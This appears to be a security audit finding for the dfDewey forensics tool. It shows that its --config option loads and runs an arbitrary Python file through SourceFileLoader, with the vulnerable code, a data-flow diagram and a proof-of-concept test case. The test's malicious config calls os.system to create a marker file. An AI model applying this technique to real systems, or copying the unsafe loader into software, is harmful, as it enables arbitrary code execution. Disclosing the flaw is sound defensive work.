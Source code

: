 - **Source Code Analysis:**
  1. File: `/code/dfdewey/config/__init__.py`
     ```python
     def load_config(config_file=None):
         ...
         try:
             spec = importlib.util.spec_from_loader(
                 'config', importlib.machinery.SourceFileLoader('config', config_file)) # Vulnerable line
             config = importlib.util.module_from_spec(spec)
             spec.loader.exec_module(config) # Vulnerable line
         except FileNotFoundError as e:
             ...
     ```
     - `load_config` uses `SourceFileLoader` to load and execute Python code from `config_file`, which is directly derived from user input.

  2. File: `/code/dfdewey/dfdcli.py`
     ```python
     def parse_args():
         ...
         parser.add_argument('-c', '--config', help='datastore config file')
         ...

     def main():
         args = parse_args()
         ...
         image_processor = ImageProcessor(..., config_file=args.config)
         index_searcher = IndexSearcher(..., config_file=args.config)
         ...
     ```
     - `parse_args` defines the `--config` argument, and `main` passes `args.config` to components that use `config.load_config`.

  - Visualization:
    ```
    User Input (--config malicious_config.py) --> dfdewey CLI (dfdcli.py - parse_args) --> ImageProcessor/IndexSearcher --> config.load_config --> SourceFileLoader (malicious_config.py) --> Arbitrary Code Execution
    ```

- **Security Test Case:**
  1. Create `malicious_config.py` with:
     ```python
     import os
     os.system('touch /tmp/dfdewey_pwned')
     ```
  2. Run dfDewey with the malicious config:
     ```shell
     dfdewey testcase /path/to/your/image.dd -c malicious_config.py
     ```
  3. Verify if `/tmp/dfdewey_pwned` exists:
     ```shell
     ls /tmp/dfdewey_pwned
     ```
  4. If the file exists, arbitrary code execution is confirmed.